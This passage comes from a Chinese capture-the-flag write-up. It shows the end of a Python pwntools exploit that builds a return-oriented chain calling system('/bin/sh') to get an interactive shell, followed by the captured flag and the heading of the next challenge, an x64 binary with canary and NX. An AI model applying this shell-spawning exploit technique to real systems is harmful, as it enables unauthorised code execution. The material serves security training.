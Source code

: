 ```python
    payload = flat(['A' * offset, prdi, binsh_addr, system_addr, vuln])

    print len(payload)

    io.sendline(payload)
    io.interactive()
    return


if __name__ == '__main__':
    pwn()

```

![1572512174094](images/icbc-2019/1572512174094.png)

flag{D9A081FCCE60815B48BF5708ABB234F8}

### Just do it(fast)

#### 基础信息

x64二进制，开启了canary、nx防护。
